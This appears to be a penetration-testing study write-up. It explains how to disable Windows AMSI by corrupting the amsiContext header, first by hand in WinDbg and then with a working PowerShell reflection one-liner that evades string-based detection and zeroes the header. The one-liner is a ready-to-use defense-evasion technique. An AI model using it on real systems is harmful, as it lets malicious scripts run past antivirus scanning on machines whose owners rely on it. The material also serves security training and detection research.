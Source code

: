 ## Initial Bypass
To bypass AMSI, we'll take a much simpler approach and attempt to halt AMSI without crashing PowerShell.

**AsmiInitalize fault**
The _AmsiInitialize_ API has not been documented by Microsoft.
Undocumented functions, structures, and objects are often prone to error, and provide a golden opportunity for security researchers and exploit developers.

If we can force some sort of error in this context structure, we may discover a way to crash or bypass AMSI without impacting PowerShell.

We will start by using Frida to locate its address in memory and then use WinDbg to inspect its content
we'll enter another "test" string to obtain the memory address of the context structure.
_AmsiContext_ is created when AMSI is initialized so its memory address does not change between scans, allowing us to inspect it easily with WinDbg, which means that the memory addresss in the amsiContext field will be constant b/w scans.

![](../../../Screenshots/amsi-cont.png)

Next,we'll open WinDbg, attach to the PowerShell process, and dump the memory contents of the context structure
We observe that the first four bytes equate to the ASCII representation of "AMSI".

![](../../../Screenshots/dc-amsicon.png)

We'll use the unassemble command in WinDbg along with the _AmsiOpenSession_ function from the AMSI module.

![](../../../Screenshots/cmp-amsi.png)
The fourth line of assembly code is interesting as it compares the contents of a memory location to the four static bytes we just found inside the context structure.

If the header bytes are not equal to this static DWORD, the conditional jump is triggered and execution goes to offset 0x4B inside the function.
Using windbg we can display instructions at that address:

![](../../../Screenshots/head-amsi-dbg.png)

The conditional jump leads directly to an exit of the function where the static value 0x80070057 is placed in the EAX register.
On both the 32-bit and 64-bit architectures, the function return values are returned through the EAX/RAX register.
This error occurs if the context structure has been corrupted. If the first four bytes of _amsiContext_ do not match the header values, _AmsiOpenSession_ will return an error.

To see what happens if the error occurs, we'll place a breakpoint on _AmsiOpenSession_ and trigger it by entering a PowerShell command.
Once the breakpoint has been triggered, we'll use ed to modify the first four bytes of the context structure, and let execution continue.

![](../../../Screenshots/ed-ch.png)

After overwriting the AMSI header value, we'll continue execution, which generates exceptions.
_AmsiOpenSession()_ has exited. This indicates that AMSI has been shut down.
If we now enter a malicious command,  none of the hooked AMSI APIs are called and our command is not flagged.

![](../../../Screenshots/1st-amsi-bypass.png)

## Powershell Reflection Bypass
Although this method is effective, it relies on manual intervention with WinDbg. We will now, implement this bypass directly from PowerShell with reflection.

PowerShell stores information about AMSI in managed code inside the _System.Management.Automation.AmsiUtils_ class, which we can enumerate and interact with through reflection.
Sadly, Windows Defender and AMSI will block us from obtaining a reference to the class due to the malicious 'AmsiUtils' string. Instead, we can locate the class dynamically.
We will use the following code:
```Powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```
This code will dynamically locate the class, enumerates all objects and variables in the class, loops through the objects to get "amsiContext" field,  the output contains a large integer who's hex value is the memory address of the AMSI header talked about previously.
Finally, the code changes the value to 0 to force an error.

The code lets us bypass amsi.
